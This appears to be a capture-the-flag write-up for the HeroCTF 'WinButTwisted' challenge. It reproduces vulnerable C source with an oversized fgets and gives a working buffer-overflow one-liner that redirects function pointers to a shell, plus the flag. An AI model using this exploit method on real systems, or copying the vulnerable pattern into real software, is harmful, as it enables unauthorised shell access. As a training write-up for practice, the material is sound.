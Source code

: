 ### Description

![image](https://user-images.githubusercontent.com/65862031/116459131-0d2a7300-a883-11eb-81e7-bcb4ba0a1679.png)

This challenge is very simple, all we need to do is find the offset as this binary is vulnerable to buffer overflow.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int UNLOCKED = 0;

void set_lock()
{
    printf("Setting lock !");
    UNLOCKED = 1;
}

void shell()
{
    printf("In shell function ! ");
    if (UNLOCKED == 1)
    {
        printf("Getting shell ! ");
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    }

    
}

void hello_hero(int hero)
{
    printf("It looks like that's something a Hero would say\n");
}

void look_like()
{
    printf("Please keep being one. :)\n");
}

int main()
{
    int (*look)() = look_like;
    int (*hello)() = hello_hero;
    char buffer[32];

    printf("What would a hero say ?\n>>> ");
    fgets(buffer, 44, stdin);
    hello();
    look();

}
```
#### We need to call two functions, first one is set_lock() and other one is shell()
#### The vulnerable portion of this script `fgets(buffer, 44, stdin);`.The buffer size is 32 and the program is allowing upto 44 which can trigger buffer overflow attack.
#### Offset is 32 and we need address for the function set_lock() and shell(). We can get that easily using readelf command.
```
readelf -s WinButTwisted | grep set_lock
  1905: 08049965    52 FUNC    GLOBAL DEFAULT    7 set_lock
```
```
readelf -s WinButTwisted | grep shell   
  1335: 08049999   120 FUNC    GLOBAL DEFAULT    7 shell
```

`python -c "import struct;print 'A' * 32 + struct.pack('I',0x08049965) + struct.pack('I',0x08049999)" | nc pwn.heroctf.fr 9003`

![image](https://user-images.githubusercontent.com/65862031/116460767-0ac91880-a885-11eb-83cb-7ef3bd3111b9.png)

`Flag : Hero{Tw1sT3D_w1N_FuNcTi0N} `
